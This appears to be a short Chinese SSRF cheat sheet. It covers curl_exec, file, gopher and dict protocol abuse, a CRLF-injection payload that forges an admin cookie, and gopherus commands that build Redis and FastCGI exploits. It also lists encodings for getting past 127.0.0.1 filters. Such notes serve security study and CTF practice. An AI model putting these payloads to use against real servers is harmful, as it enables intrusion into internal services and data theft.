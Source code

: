 涉及函数

```php
curl_exec() curl_exec函数⽤于执⾏指定的cURL会话。
```

## 涉及协议

| Protocol       | Details                                     | 3                       |
| -------------- | ------------------------------------------- | ----------------------- |
| file://        |
| gopher://      | `gopher://<host>:<port>/<gopher-path>`      |
| dict://        | dict://127.0.0.1:6379 //探测 redis 是否存活 |
| (仅 java) url: | `url?url:=file:/flag%23.html`               | file 和 netdoc 都可以读 |

### CRLF 注入

| CRLF 注入 | application/json `{"url":"http://127.0.0.1/secret.php","author":"ddd\r\nCookie: admin=dHJ1ZQ"}` |

## gopher

[gopher 协议的利用](https://mp.weixin.qq.com/s/lVzMSXn42SjTPb5EnY8NgA)

如果 redis 有验证用 `gophper-redis-auth.py`

```sh
python2 gopherus.py --exploit fastcgi
参数1： /var/www/html/index.php
参数2cmd: ls
python2 gopherus.py --exploit redis
参数1： php
参数2cmd: ls
```

- 生成的 payload 再次 url 编码,
- encode all special chars (Cyberchef) 再使用

## 127.0.0.1 绕过

```bash
url=http://xxx@127.0.0.1
1②7.0.0.1
127。 0。 0。 1
127.1
0177.0.0.1 //⼋进制
0x7f.0.0.1 //⼗六进制
2130706433 //⼗进制
url=http://0/flag.php
0.0.0.0
```

# Article

[实战 | 利用 SSRF 渗透内网主机-下](https://mp.weixin.qq.com/s/oq7IC6Av4_fY7HBxH-8p0Q)
[实战 | 利用 SSRF 渗透内网主机-中](https://mp.weixin.qq.com/s/bEhNuMJpI5y9fj5RGzYhXA)
[实战 | 利用 SSRF 渗透内网主机-上](https://mp.weixin.qq.com/s/zmOLO3ilJdSl02s6aWLpXw)
